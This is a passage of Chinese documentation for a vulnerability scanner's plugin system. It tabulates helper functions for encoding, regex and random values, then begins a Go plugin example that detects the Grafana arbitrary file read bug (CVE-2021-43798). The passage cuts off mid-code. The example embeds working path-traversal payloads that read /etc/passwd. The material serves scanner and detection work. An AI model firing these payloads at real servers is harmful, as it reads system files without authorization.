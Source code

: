 ##### 编码转换

| 函数名       | 等效代码                                     | 说明                                            |
| ------------ | -------------------------------------------- | ----------------------------------------------- |
| md5          | `crypot.ToMD5(string(v1))`                   | 返回字符串 MD5 的编码结果                       |
| base64       | `crypot.Base64Encode(string(v1))`            | 返回字符串/字节数组 base64 的编码结果           |
| base64Decode | `base64.StdEncoding.DecodeString(string(v))` | 返回字符串/字节数组 base64 字符串的解码结果     |
| urlEncode    | ` url.QueryEscape(string(v))`                | 返回字符串/字节数组 url decode 的编码结果       |
| urlDecode    | `url.QueryUnescape(string(v))`               | 返回字符串/字节数组 url decode 字符串的解码结果 |

##### 正则表达式

| 函数名   | 等效代码                                     | 说明                                                                          |
| -------- | -------------------------------------------- | ----------------------------------------------------------------------------- |
| matches  | `regexp.MatchString(string(v1), string(v2))` | 正则表达式 v1 来匹配 v2，返回 bool 类型匹配结果                               |
| bMatches | `regexp.Match(string(v1), v2)`               | 正则表达式 v1 来匹配 v2，返回 bool 类型匹配结果，不同的是 bMatches 匹配字节流 |

##### 随机数

| 函数名          | 等效代码                                     | 说明                                   |
| --------------- | -------------------------------------------- | -------------------------------------- |
| randomInt       | `func randomInt(v1,v2 int) return int`       | 返回两个范围内的随机数                 |
| randomLowercase | `func randomLowercase(v1 int) return string` | 返回指定长度的小写字母组成的随机字符串 |

### 编写 GO 插件

如果生成的 yaml 插件无法满足需求，可以创建 go 文件，自己实现逻辑检测逻辑。下面是一个 Grafana 未授权任意文件读取漏洞检测插件的例子：

```go
package exploits

import (
  "fmt"
  "heartsk/scan/models"
  "heartsk/utils/netUtils"
  "heartsk/utils/randomUtils"
  "net/http"
  "strings"
  "time"
)

//init 注册插件插件
func init() {
	//payload
  path := []string{
    "../../public/plugins/alertGroups/../../../../../../../../etc/passwd",
    "../../public/plugins/alertlist/../../../../../../../../etc/passwd"}

  //注册插件
  models.Register(models.NewExploit{Info: models.AppVulInfo{
    App:   "Grafana",
    Query: "app=\"Grafana\"",
    Meta: models.VulMeta{
      Name:        "Grafana 未授权任意文件读取漏洞",
      Tags:        []string{"file_read"},
      Author:      "一曲成殇",
      Description: "Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。",
      Homepage:    "https://grafana.com/",
      Level:       4,
      References:  "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798",
```